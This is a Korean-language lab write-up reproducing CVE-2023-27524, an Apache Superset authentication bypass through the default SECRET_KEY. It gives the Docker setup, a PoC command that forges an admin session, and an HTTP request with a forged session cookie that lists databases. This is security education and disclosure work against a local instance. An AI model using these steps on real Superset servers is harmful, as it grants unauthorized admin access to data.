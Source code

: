 # CVE-2023-27524 - Apache Superset Authentication Bypass

> 화이트햇 스쿨 3기 (13반) - [박세민 (@8sheeta8)](https://github.com/8sheeta8) 


## 개요


Apache Superset은 데이터 탐색과 시각화를 위한 오픈소스 플랫폼입니다.
Superset은 기본 설정으로 하드코딩된 SECRET_KEY 값을 사용합니다.
관리자가 이 값을 변경하지 않으면, 공격자가 이를 이용해 세션 쿠키를 위조하고 관리자로 로그인할 수 있습니다.
이를 통해 Superset 대시보드, 연결된 데이터베이스에 무단 접근이 가능하며, 추가 취약점과 연계할 경우 원격 코드 실행(RCE)까지 이어질 수 있습니다.

취약 버전: Superset <= 2.0.1
취약점 유형: 인증 우회 (Authentication Bypass)

참고:
- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

  
## PoC GitHub


### 1. Docker를 이용한 취약 환경 구축

```
docker compose up -d
```

Superset 서버가 http://localhost:8088 에서 구동됩니다.


### 2. 의존성 설치

```
# PoC 코드에 필요한 패키지를 설치합니다.

pip install -r requirements.txt
```

### 3. Forged Session 쿠키 생성

```
# PoC 코드를 실행하여 관리자 계정(user_id=1) 세션을 위조합니다.

python CVE-2023-27524.py --url http://localhost:8088 --id 1 --validate
```

실행 결과
기본 SECRET_KEY 사용 (CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET) 확인

forged session 생성 완료
302 리다이렉션 발생 → 인증 우회 성공 판정

<img width="1280" alt="제목 없음" src="https://github.com/user-attachments/assets/136e9b98-eb68-4ccc-a959-a0b914f95bf7" />

### 4. 인증 우회하여 백엔드 접근

```
# BurpSuite를 통해 forged session으로 API 호출

GET /api/v1/database/ HTTP/1.1
Host: localhost:8088
Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aA4W5Q.ni44K6wlFydKq4jwQZ0k3JcC6T0
```

정상적으로 200 OK 응답 수신
데이터베이스 리스트 열람 가능

![스크린샷 2025-04-27 205322](https://github.com/user-attachments/assets/3253505d-8ded-49b9-91f0-c0b05751c396)
